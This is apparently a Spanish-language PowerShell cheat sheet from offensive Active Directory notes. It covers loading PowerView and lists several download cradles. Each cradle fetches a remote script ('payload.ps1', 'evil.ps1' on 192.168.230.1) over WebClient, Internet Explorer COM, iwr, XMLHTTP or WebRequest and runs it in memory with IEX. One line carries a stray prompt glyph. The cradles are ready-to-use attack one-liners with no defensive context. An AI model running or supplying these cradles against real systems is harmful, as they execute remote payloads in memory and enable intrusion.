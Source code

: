 # Powershell 

Tags: #Powershell #AD 

## Cargar e importar un script 

```powershell 
❯ C:\AD\PowerView.ps1                   # Cargar un script 

❯ Import-Module C:\AD\PowerView.psd1    # Importar un modulo 

❯ Get-Command -Module <ModuleName>      # Listar modulos 
```

## Descargar un script 

* [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')  # Descargar executable en memoria 

❯ $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

❯ PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')

❯ $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex ❯ $h.responseText

❯ $wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
❯ $r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```